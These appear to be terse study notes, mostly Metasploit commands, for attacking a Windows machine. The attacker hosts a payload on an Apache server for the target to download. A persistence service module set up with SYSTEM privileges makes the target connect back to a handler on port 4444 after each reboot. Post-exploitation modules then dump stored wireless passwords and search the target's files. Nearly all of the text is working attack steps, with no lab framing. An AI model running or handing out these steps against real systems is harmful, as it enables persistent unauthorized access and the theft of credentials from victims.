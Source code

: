 	$ options

	$ sessions

	$ set SESSION 1

	$ run - must run exploit on different PORT if we have another session running


## Persistence

Adding a process to startup so we can gain access again after system shutdown

	$ systemctl start apache2 - will start an Apache web server on attacking machine

	$ cd /var/www/html - delete contents and put the payload in the directory

	> navigate to the IP address of the attacker machine and download the payload

	$ msfconsole

	* start handler on the attacking machine

	$ search persistence

	$ use exploit/windows/local/persistence_service

	$ show info - will upload an executable and give  persistence

	* we need System privileges before executing persistence

	$ set SESSION 2 - select the session with SYSTEM level

	$ set RETRY_TIME 10 - the default is 5 seconds 

	$ run

	> getuid - SYSTEM and will connect back when the target is back online

	$ select exploit/multi/handler

	$ set LPORT 4444 - the port on which the persistence module is set and wait for the target to connect back

	$ run

	$ bg - to run it in the background


## Post exploitation modules

-- note: we are on the target system

	> search -f *.jpg - will search the target for jpg files

	> bg

	$ search post/windows

	$ use post/windows/wlan/wlan_profile - will list all the wireless profiles and passwords

	$ show options
